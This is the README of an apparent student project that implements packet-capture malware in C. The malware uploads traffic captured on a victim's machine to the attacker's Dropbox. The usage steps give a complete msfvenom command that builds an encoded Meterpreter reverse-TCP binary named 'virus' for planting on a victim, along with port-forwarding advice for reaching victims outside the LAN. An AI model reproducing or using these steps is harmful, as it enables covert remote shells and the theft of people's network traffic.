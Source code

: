 # CS460 Final Project

This project is a simple implementation of a packet capture malware. The malware is written in C and utilizes the libpcap library. 
In order to simulate how this malware could be placed on a victim's machine, Metasploit is used. 

## How To Use

1. [Download Metasploit](https://www.rapid7.com/products/metasploit/download/)

2. Create a Dropbox developer account, create an access token add it to your environment as "DROPBOX_ACCESS_TOKEN". 
   Dropbox is used for storing pcap files that have been created on the victim's machine.
   
3. Run ./build.sh to create the malware executable. The malware was only tested on Linux so it is advisable to only build it on Linux.

4. Move into the directory containing all the Metasploit binaries. This is typically /opt/metasploit-framework/bin/.
   Run the command below, which creates a binary version of an exploit that is placed on the victim's machine. 
   When this binary is executed, a meterpreter shell is started on your machine. More info on meterpreter shells can be found [here  (https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
   
   ./msfvenom -a x86 --platform linux -p x86/linux/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -e x86/shikata_ga_nai -f elf -o virus

   Make sure to fill [YOUR_IP] with your external IP address (router IP) if the victim's machine is outside your LAN and with your        internal IP address if you are in the same LAN as the victim. If you use your external IP address, then your router must have port forwarding enabled for port 4444.
